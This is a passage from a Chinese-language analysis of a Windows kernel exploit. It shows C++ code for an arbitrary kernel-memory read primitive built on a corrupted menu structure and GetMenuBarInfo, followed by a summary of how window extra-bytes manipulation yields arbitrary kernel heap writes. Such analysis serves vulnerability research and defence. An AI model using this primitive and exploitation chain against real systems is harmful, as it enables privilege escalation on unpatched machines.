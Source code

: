 ```cpp
    goto LABEL_27;
  }
  //...
}
```

我在里面加了很多注释，可以很容易的理解 EXP 中的任意读函数原理：

```cpp
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR &ululOutVal1, ULONG_PTR &ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);
 
    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect);
 
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; //0x44 xItem
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);
 
    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;
 
    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
}
```

### 6. 分析总结

通过上面的分析可知：

1. 通过 hook `user32!_xxxClientAllocWindowClassExtraBytes` 调用 `NtCallbackReturn` 设置 `pExtraBytes` 的值，该值保存用户层内存地址或相对内核堆基址的偏移
2. 通过 `SetWindowLong` 可以修改 `pExtraBytes` 指向的内存数据
3. 通过 `ConsoleControl` 可以控制 `dwExtraFlag |= 0x800`，该值决定 `SetWindowLong` 写数据时的寻址方式
4. `cbWndExtra` 可以在注册窗口类时指定，可以理解为扩展内存大小，利用 `SetWindowLong` 写数据时要保证偏移量 `nIndex` 小于这个值

通过这 4 项进行配合，可以达到内核堆内存任意写入的效果。

引用@iamelli0t的图概括：
